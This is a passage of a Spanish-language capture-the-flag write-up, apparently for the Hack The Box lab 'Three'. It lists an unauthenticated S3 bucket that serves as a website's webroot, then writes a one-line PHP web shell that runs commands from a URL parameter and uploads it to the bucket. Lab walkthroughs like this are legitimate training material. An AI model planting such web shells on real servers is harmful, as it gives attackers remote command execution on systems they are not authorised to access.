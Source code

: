 Podemos interactuar con este bucket S3 con la ayuda de la utilidad awscli. Se puede instalar en Linux utilizando el comando apt install awscli .

Vamos a configurar el aws, con el siguiente comando:
```bash
aws configure
```
```bash
❯ aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

En los campos de configuracion, los deje con la palabra temp, porque no es necesario configurarlo con los parametros pedidos, por lo menos para esta maquina.

Vamos a tratar de listar el contenido del contenedor:

```bash
❯ aws --endpoint=http://s3.thetoppers.htb s3 ls
2023-04-24 16:23:56 thetoppers.htb
```

Encontramos el directorio thetoppers.htb, vamos a listar lo que hay dentro del el:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
```bash
                           PRE images/
2023-04-24 16:23:56          0 .htaccess
2023-04-24 16:23:57      11952 index.php
```

Vemos los archivos index.php , .htaccess y un directorio llamado images en
el bucket especificado. Parece que este es el webroot sitio web que se ejecuta en el puerto 80 . Así que el servidor Apache está utilizando este cubo S3 como almacenamiento.

## Explotacion
Aprovechamos esto y cargamos nuestro archivo shell php.

Creamos nuestro archivo php:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Al cual llamamos shell.php.

Subimos el archivo al cubo s3, con el siguiente comando.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

![img](/assets/img/post/three/upload.png)
